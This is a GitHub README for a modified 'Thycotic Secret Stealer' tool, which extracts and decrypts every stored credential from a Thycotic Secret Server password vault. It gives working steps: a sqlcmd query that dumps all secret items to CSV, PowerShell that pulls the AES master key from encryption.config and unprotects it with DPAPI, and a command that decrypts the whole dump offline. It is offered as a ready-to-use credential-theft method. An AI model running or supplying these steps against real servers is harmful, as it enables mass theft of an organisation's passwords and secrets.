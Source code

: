 # Modified-Thycotic-Secret-Stealer for v10.8+ with DPAPI Integration

Quick modification of [Thycotic Secret Stealer](https://github.com/denandz/SecretServerSecretStealer) to pull AES master Key from DPAPI and then perform Decryption offline and spit output to CSV file.

# SQLCMD
The following SQLCMD will pull all the items from the Database
```
sqlcmd -d SecretServer -q "select s.SecretName, f.SecretFieldName, s.[Key], i.ItemValue from tbSecretItem as i JOIN tbSecret as s ON (s.SecretID = i.SecretID) JOIN tbSecretField as f on (i.SecretFieldID = f.SecretFieldID)" -W -w 1024 -s "," -o Data.csv
```

# Pull Master Key off Thycotic Server

```
$masterKeys = Get-MasterKeysv104 -path C:\inetpub\wwwroot\SecretServer\encryption.config
$masterkeys.IsEncryptedWithDPAPI # should return true
$decrypted = [Security.Cryptography.ProtectedData]::Unprotect([Convert]::FromBase64String($masterkeys.key256), $null, 'LocalMachine')
[Text.Encoding]::ASCII.GetString($decrypted)
```

# Decrypt and Spit to CSV
```
Invoke-SecretDump -SecretServerDataPath <PATH TO .csv> -MasterKey <AES MASTER KEY>
```
# References
Big thanks to curi0usJack and his original post here: 
https://www.trustedsec.com/blog/thycotic-secret-server-offline-decryption-methodology/


